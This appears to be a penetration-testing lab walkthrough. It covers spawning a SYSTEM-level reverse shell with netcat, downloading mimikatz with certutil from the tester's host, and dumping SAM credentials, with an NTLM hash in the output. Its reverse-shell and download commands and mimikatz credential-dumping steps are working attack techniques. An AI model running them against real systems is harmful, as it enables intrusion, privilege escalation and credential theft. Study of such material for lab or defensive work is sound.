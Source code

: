 Uploaded successfully

To prep to connect to another connection shell run nc (suggested to use 443 since it's never blocked by firewall in many networks)

```
nc -nlvp 443
```

Now to run the exploit to spawn a shell with a higher privilege level back on my system
```
ps.exe -c "nc.exe  192.168.45.174 443 -e cmd.exe"
```

After running this I see the system32 line in my reverse shell

```
whoami
```
	nt authority\system32

### Pivoting

Now to install mimikatz for further actions to pivot to other systems
https://github.com/ParrotSec/mimikatz/blob/master/x64/mimikatz.exe

Now download it with certutil
```
certutil -urlcache -f http://192.168.45.174/mimikatz.exe mimi.exe
```

After it downloads, pull up the mimikatz cheat sheet
https://gist.github.com/insi2304/484a4e92941b437bad961fcacda82d49

Always debug when starting to confirm privileges
```mimikatz
privilege::debug
```
	Privilege '20' OK

This escalates Mimikatz privileges
```mimikatz
token::elevate
```
	Token Id  : 0
	User name : 
	SID name  : NT AUTHORITY\SYSTEM
	
	644	{0;000003e7} 1 D 43235     	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Primary
	 -> Impersonated !
	 * Process Token : {0;000003e7} 0 D 2351848   	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,31p)	Primary
	 * Thread Token  : {0;000003e7} 1 D 2426310   	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Impersonation (Delegation)

Now to dump credentials:
```mimikatz
lsadump::sam
```
![[Pasted image 20231207164053.png]]
	RID  : 000001f4 (500)
	User : Administrator
	  Hash NTLM: 3c4495bbd678fac8c9d218be4f2bbc7b
